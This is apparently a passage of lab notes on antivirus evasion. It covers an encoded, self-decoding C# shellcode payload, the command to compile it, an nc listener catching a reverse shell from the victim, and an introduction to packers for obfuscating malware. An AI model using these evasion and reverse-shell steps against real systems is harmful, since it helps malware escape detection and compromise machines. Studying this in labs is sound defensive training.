 ## Self-decoding Payload

Since we have an encoded payload, we need to adjust our code so that it decodes the shellcode before executing it. To match the encoder, we will decode everything in the reverse order we encoded it, so we start by decoding the base64 content and then continue by XORing the result with the same key we used in the encoder. Here's the full payload code (you can also get it in your Windows machine at `C:\Tools\CS Files\EncStageless.cs`):

![[Pasted image 20250520164549.png]]


Note that we have merely combined a couple of really simple techniques that were detected when used separately. Still, the AV won't complain about the payload this time, as the combination of both methods is not something it can analyze directly.

Let's compile our payload with the following command on the Windows machine:

Compile Our Encrypted Payload

```shell-session
C:\> csc.exe EncStageless.cs
```

Before running our payload, let's set up an `nc` listener. After copying and executing our payload into the victim machine, we should get a connection back as expected:

Set Up nc Listener

```shell-session
user@AttackBox$ nc -lvp 443
Listening on [0.0.0.0] (family 0, port 443)
Connection from ip-10-10-139-83.eu-west-1.compute.internal 49817 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\System32>
```

As you can see, simple adjustments are enough sometimes. Most of the time, any specific methods you find online won't probably work out of the box as detection signatures may already exist for them. However, using a bit of imagination to customize any method could prove enough for a successful bypass.


# Packers

---

Another method to defeat disk-based AV detection is to use a packer. **Packers** are pieces of software that take a program as input and transform it so that its structure looks different, but their functionality remains exactly the same. Packers do this with two main goals in mind:

- Compress the program so that it takes up less space.
- Protect the program from reverse engineering in general.

Packers are commonly used by software developers who would like to protect their software from being reverse engineered or cracked. They achieve some level of protection by implementing a mixture of transforms that include compressing, encrypting, adding debugging protections and many others. As you may have already guessed, packers are also commonly used to obfuscate malware without much effort.
